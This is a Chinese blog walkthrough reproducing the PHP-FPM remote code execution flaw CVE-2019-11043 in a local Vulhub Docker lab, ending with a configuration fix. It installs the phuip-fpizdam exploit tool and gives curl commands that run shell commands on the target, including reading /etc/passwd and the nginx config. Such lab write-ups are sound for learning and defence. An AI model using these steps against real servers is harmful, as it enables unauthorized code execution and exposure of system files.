




# 【漏洞复现】之 PHP-FRM 远程代码执行漏洞（CVE-2019-11043）复现 - Woori - 博客园

> 原文：[`www.cnblogs.com/yankaohaitaiwei/p/11795972.html`](https://www.cnblogs.com/yankaohaitaiwei/p/11795972.html)

（本文仅为平时学习记录，若有错误请大佬指出，如果本文能帮到你那我也是很开心啦）

**该复现参考网络中的文章，该漏洞复现仅仅是为了学习交流，严禁非法使用！！！**

**一、介绍**

> **CVE-2019-11043：**远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码，向 Nginx + PHP-FPM 的服务器 URL 发送 %0a 时，服务器返回异常

*   该漏洞需要在 nginx.conf 中进行特定配置才能触发，具体配置如下

```
1 location ~ [^/]\.php(/|$) { 2  ...
3  fastcgi_split_path_info ^(.+?\.php)(/.*)$; 4  fastcgi_param PATH_INFO $fastcgi_path_info; 5  fastcgi_pass   php:9000; 6  ...
7 }
```

*   攻击者可以使用换行符（％0a）来破坏 fastcgi_split_path_info 指令中的 Regexp，Regexp 被损坏导致 PATH_INFO 为空，从而触发该漏洞
*   影响范围：PHP5.6-7.x

**（介绍源于[`blog.leanote.com/post/snowming/9da184ef24bd`](http://blog.leanote.com/post/snowming/9da184ef24bd)十分详细，感谢！！！）**

**二、漏洞复现过程**

**1.环境准备**

*   **使用之前在 Kali 中安装的 Docker 进行复现，安装过程请参考[`www.cnblogs.com/yankaohaitaiwei/p/11788333.htm`](https://www.cnblogs.com/yankaohaitaiwei/p/11788333.html)**
*   **在 Kali 中还需安装工具 phuip-fpizdam（在 Kali 中安装该工具方便测试，这时攻击者和靶机都是同一个 Kali，如果不想攻击者和靶机是同一个，在攻击者主机上安装该工具，并且攻击者必须与靶机连通）**
    *   下载 phuip-fpizdam

```
git clone https://github.com/neex/phuip-fpizdam
```


*   *   进入到下载好的 phuip-fpizdam 目录中，可以看到有很多.go 文件，说明该工具需要 go 语言的环境支持


*   *   安装 go 环境

```
go  查看环境中是否有 go 环境，有的话会返回帮助信息
apt install golang-go  安装 go
go version  查看 go 版本
```


*   *   安装 phuip-fpizdam

```
go get -u github.com/neex/phuip-fpizdam
```


2.启动 Docker，进入 Vulhub 下的 php 目录下的 CVE-2019-11043 中，启动整个环境

```
/etc/init.d/docker start
```


```
cd vulhub-master/ cd php
cd CVE-2019-11043
```




```
docker-compose up -d
```



3.查看端口

```
docker ps  列出所有在运行的容器信息
```


4.根据回显，在宿主机的浏览器上访问使用 Vulhub 搭建好的所存有漏洞的站点


5.回到 Kali，启动工具 phuip-fpizdam

```
1 cd go/bin 2 ./phuip-fpizdam
```


6.检验漏洞是否存在

```
./phuip-fpizdam http://127.0.0.1:8080/index.php
```



*   根据回显可知漏洞存在，且漏洞的利用方式也给出了

7.漏洞利用，也可将 whoami 换成其他命令，如：ls、cat /etc/passwd 等等，这里不做过多演示

*   更换为 ifconfig 命令可能不会成功，可能是 Docker 环境不支持 ifconfig

```
curl "http://127.0.0.1:8080/index.php?a=whoami"
```

*   如果一次运行没有成功，多试几次即可


**三、修复**

1.查看运行的 Docker

```
docker ps
```


2.进入容器内部，并在 Nginx 配置文件下查找 fastcgi_split_path_info

```
1 docker exec -it b92dfa82075b /bin/bash 2 grep -Rin --color 'fastcgi_split_path_info' /etc/nginx/
```


3.读取 Nginx 的配置文件，找到 fastcgi_split_path_info（用作 URL 匹配）和 fastcgi_param PATH_INFO，将其注释即可完成修复

```
1 cat /etc/nginx/conf.d/default.conf 2 或 3 curl "http://127.0.0.1:8080/index.php?=cat /etc/nginx/conf.d/default.conf"  利用漏洞
```

